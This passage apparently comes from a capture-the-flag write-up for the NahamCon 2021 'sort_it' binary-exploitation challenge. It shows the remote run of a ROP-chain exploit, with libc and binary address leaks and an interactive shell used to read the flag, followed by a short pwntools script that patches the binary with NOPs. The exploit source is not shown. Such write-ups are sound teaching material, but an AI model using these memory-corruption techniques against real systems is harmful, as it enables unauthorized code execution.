 Right, so to _win_, to actually get our _ropchain_ to execute, we need to hit that sweet sweet return statement, and to do that we need to _win_ by having a sorted list.

Or, just replace the list with `A`s, then just `y` that the list is sorted at the end and claim your prize.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/nahamconctf2021/sort_it/sort_it_patched'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenge.nahamcon.com on port 31286: Done
[*] '/pwd/datajerk/nahamconctf2021/sort_it/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7f39427da000
[*] binary.address: 0x56551fcf8000
[*] yn: 0x56551fcfc030
[*] Loaded 14 cached gadgets for './sort_it_patched'
[*] 1. element: 0x7ffdc148c010
[*] Switching to interactive mode
You win!!!!!
$ id
uid=1000(challenge) gid=1000 groups=1000
$ ls -l
total 48
drwxr-xr-x 1 root 0 12288 Mar  6 06:18 bin
drwxr-xr-x 1 root 0  4096 Mar  6 06:18 dev
drwxr-xr-x 1 root 0  4096 Mar  6 06:18 etc
-r--r--r-- 1 root 0    39 Mar  6 06:17 flag.txt
lrwxrwxrwx 1 root 0     7 Mar  6 06:17 lib -> usr/lib
lrwxrwxrwx 1 root 0     9 Mar  6 06:17 lib32 -> usr/lib32
lrwxrwxrwx 1 root 0     9 Mar  6 06:17 lib64 -> usr/lib64
lrwxrwxrwx 1 root 0    10 Mar  6 06:17 libx32 -> usr/libx32
---x--x--x 1 root 0 16648 Mar  6 06:17 sort_it
drwxr-xr-x 1 root 0  4096 Mar  6 06:17 usr
$ cat flag.txt
flag{150997c12bbc936a1bedfad00053cdb5}
```

## WTF is `sort_it_patched`

```
#!/usr/bin/env python3

from pwn import *

binary = ELF('sort_it')
binary.write(0x1208,5*b'\x90')
binary.save('sort_it_patched')
os.chmod('sort_it_patched',0o755)
```
